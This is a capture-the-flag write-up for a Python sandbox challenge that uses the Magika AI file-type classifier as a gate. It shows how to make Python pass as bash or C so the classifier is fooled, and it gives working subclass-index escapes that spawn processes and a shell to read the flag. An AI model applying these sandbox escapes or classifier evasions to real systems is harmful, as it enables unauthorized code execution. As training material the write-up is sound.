 # Magic Trick \[484 Points] (20 Solves)
```
I will take your code, and make it disappear!

Author: ahh
nc 193.148.168.30 6673 
```
[Attachment: zip archive](./misc-magic-trick)
## Writeup

**Magic Trick** is a simple **pyjail** wrapped in **Magika**, an AI for data type classification. \
For example it *should* be able to see python source code, and tell that it's python.

The challenge inputs a base64 file, makes sure, using **Magika**, that it's *not python*, and *executes* it as python. \

**And of course we can fool it \:)**

The *easiest* way to achieve it, is to take an open source library,
_**ideally in a language that is also valid python**_.

I chose **bash**, and took a most starred project on github which only uses **assignments and comments**. \
It's content mostly looks like this
```bash
#APP PATHS
appDir="$( cd $( dirname ${BASH_SOURCE[0]} ) && pwd )"
continuityCheckUtilPath="$appDir/continuityCheck.app/Contents/MacOS/continuityCheck"
backupFolderNameBeforePatch="KextsBackupBeforePatch" #kexts backup folder name, where the original untouched kexts should be placed
```
**Which is also valid python!**
```py
#APP PATHS
appDir="$( cd $( dirname ${BASH_SOURCE[0]} ) && pwd )"
continuityCheckUtilPath="$appDir/continuityCheck.app/Contents/MacOS/continuityCheck"
backupFolderNameBeforePatch="KextsBackupBeforePatch" #kexts backup folder name, where the original untouched kexts should be placed
```

Now when we fooled the AI, we just need to escape the `"__builtins__": None` pyjail. \
For this I booted the chal docker, entered pwn.red jail (to get the exact same
python version running on server) and printed the subclasses array
`(1).__class__.__base__.__subclasses__()`. \
Now all is left is to find the index of a function which would allow code execution. \
In this case index `443` would open a process based on the array.

One "problem" we have right now is that the flag path is randomized, so first we do an `ls`
```py
(1).__class__.__base__.__subclasses__()[443](['ls'])
```


And now when we get the name of the flag we can `cat` it
```py
(1).__class__.__base__.__subclasses__()[443](['cat', 'flag-Aub46K1Mv2oqIBBDMMwYmSfsRpz9jiXgYRiPYpdKZbDHlxfW258DoA33saRVjTN0.txt'])
```


[solve.txt](./solve.txt) is the raw file to be sent to the server, before base64 encoding.

**Flag:** `L3AK{dId_you_uS3_s0m3thiN9_OTHEr_7H4n_C? :O}`

## Intended Solution

```py
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <bool.h>
#define NULL 0
#define breakpoint extern main
a = [];
void = a.__class__
bool = void.__base__
char = bool.__subclasses__()
int = char[120];
os = "os";
c_posix_t = int.load_module(os);
c_posix_t.system("sh");
```
A similar pyjail escape, however instead of hiding the python in gibberish
the python itself looks like c.

This solution also explains flag's content \:)
